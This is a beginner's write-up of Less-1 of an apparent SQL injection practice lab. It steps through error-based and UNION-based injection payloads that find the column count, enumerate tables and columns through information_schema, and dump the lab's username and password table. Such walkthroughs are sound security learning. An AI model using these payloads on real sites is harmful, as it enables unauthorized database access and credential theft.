 Hello guys.
This is the first time im doing something related to SQL injection. I have basic knowledge about sql syntax and functions...

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String"


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error
so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like
```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.
However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 
```UNION SELECT 1 -- -```
It returned an error: 
``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:
```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 
``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,
```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!
```Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:
-[https://www.sqlinjection.net/numeric-parameters/]

-[https://portswigger.net/web-security/sql-injection/union-attacks]

-[https://noobsec.net/sqli-cheatsheet/#Database-Contents]


